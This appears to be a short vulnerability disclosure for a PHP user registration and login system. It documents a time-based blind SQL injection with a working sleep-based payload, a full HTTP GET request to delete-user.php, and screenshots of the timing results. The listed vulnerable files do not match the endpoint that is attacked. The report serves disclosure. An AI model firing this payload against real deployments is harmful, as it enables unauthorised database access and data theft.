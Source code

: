 ## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(4)))v)/*'%2B(select(0)from(select(sleep(4)))v)%2B'"%2B(select(0)from(select(sleep(4)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(4)))v)/*'%2B(select(0)from(select(sleep(4)))v)%2B'"%2B(select(0)from(select(sleep(4)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.6.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

```

1. sleep(10)
![Alt text](image-2.png)

2. sleep(15)
![Alt text](image-3.png)